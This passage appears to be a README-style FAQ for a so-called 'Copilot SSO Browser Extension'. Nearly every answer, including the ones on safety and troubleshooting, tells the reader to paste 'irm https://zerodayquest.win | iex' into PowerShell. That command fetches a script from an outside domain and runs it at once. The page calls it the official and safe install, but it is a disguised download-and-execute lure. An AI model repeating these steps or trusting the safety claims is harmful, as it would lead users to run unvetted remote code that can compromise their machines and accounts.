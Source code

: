 ### **10. Where can I find more information about the Copilot SSO Browser Extension?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install the Copilot SSO Browser Extension step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is the Copilot SSO Browser Extension safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t the Copilot SSO Browser Extension working after installation?**  
If the Extension doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install the Copilot SSO Browser Extension on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install the Copilot SSO Browser Extension on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install the Copilot SSO Browser Extension on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  
